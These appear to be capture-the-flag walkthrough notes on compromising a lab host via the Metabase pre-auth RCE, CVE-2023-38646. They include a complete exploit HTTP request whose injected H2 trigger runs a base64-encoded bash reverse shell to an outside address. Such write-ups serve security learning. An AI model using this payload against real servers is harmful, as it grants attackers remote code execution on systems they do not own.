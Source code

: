 ![[/Untitled 104 2.png|Untitled 104 2.png]]

This login page need a valid email, and the contact email of the domain can be found in the main page **due@analytical.com**

LEARN HOW TO USE GOBUSTER FOR SUBDOMINS IS NOT WORKING

Using ffuf I started enumerating subdomains, I know that there is one already for the Login Page

The only subdomain found was data

Since I cant find anything Ill try with metabase

So theres a PreAuth RCE vulnerabilty for metabase

> [!info] Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)  
> Subscribe to our newsletter and stay updated on the newest research, security advisories, and more!  
> [https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646](https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646)  

> [!info]  
>  
> [https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py](https://github.com/m3m0o/metabase-pre-auth-rce-poc/blob/main/main.py)  

TL;DR

![[/Untitled 105 2.png|Untitled 105 2.png]]

Using this POST request, where the token is found on /api/session/properties and the base64 encoded is `bash -i >&/dev/tcp/IP/PORT 0>&1`

```Bash
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
